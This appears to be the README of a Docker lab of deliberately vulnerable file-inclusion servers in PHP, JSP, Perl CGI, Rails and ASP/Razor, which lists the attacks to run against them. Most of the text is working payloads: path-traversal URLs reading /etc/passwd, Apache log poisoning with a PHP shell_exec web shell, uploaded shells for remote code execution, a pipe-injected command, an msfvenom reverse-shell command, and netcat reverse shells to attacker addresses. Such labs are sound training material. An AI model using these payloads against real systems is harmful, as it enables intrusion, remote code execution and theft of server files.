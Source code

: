 # Installation

- Install Docker (verified with version 2.0.0.3)
- If you want to use the windows network on Aa non Windows OS also install [VirtualBox](https://www.virtualbox.org/) 

## Ubuntu

Check if you have docker-machine and docker-compose also installed. 
Notice that if not added to docker group, docker has to be run with sudo.

## Windows

Using [Cmder](https://cmder.net/) on Windows you can run `docker-compose -f lfi_linux_network.yml up --build` to run the linux network. 

# Examples

Note, the reverse shell examples are verified with [Metasploit Version 5.0.37-dev](https://www.metasploit.com/) on [Kali Linux](https://www.kali.org/).

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 

PoCs RFI:

- [http://127.0.0.1:8883/lfi.php?language=http://google.com?q=](http://127.0.0.1:8883/lfi.php?language=http://google.com?q=)

- [http://127.0.0.1:8883/lfi.php?page=http://textfiles.com](http://127.0.0.1:8883/lfi.php?page=http://textfiles.com)

Code running on the victim server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_victim.txt)

Code running on the attacker server:

- [http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php](http://127.0.0.1:8883/lfi.php?page=http://172.18.0.5/run_on_attacker.php)

To get reverse shell you can use Metasploit:

`msfvenom -a php --platform php -p php/reverse_perl lhost=172.18.0.5 lport=4444`

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

- [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check) or
- [http://127.0.0.1:8883/lfi.php?language=uploads/check](http://127.0.0.1:8883/lfi.php?language=uploads/check)

#### Exploits

#### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

#### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

#### Shell

- Upload shell.php
- goto: [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)
- then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### RFI

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)

### LFI

Upload runme.jsp from attacker_server_jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

## CGI / Perl

Single Container: Start it in the folder `victim_fi_server_cgi_perl`.

### RFI

[http://127.0.0.1:8895/cgi-bin/index.pl?file=https://www.google.de](http://127.0.0.1:8895/cgi-bin/index.pl?file=https://www.google.de)

### LFI

- /etc/passwd
[http://127.0.0.1:8895/cgi-bin/index.pl?file=/etc/passwd](http://127.0.0.1:8895/cgi-bin/index.pl?file=/etc/passwd)

- Outputs the current server folder:
[http://127.0.0.1:8895/cgi-bin/index.pl?file=ls|](http://127.0.0.1:8895/cgi-bin/index.pl?file=ls|)

## Rails

Another single container: To Start goto `victim_fi_server_rails` folder.

### LFI

`curl -X GET -H 'Accept: ../../../../../../../etc/passwd{{' http://localhost:8896/fileinclusion`

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment on a non-windows machine.

Then you can start a windows ASPX Razor network with a victim machine (use `start_win_network.sh` or `docker-compose -f lfi_win_network.yml up --build`). After that you can verify the following payloads:

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

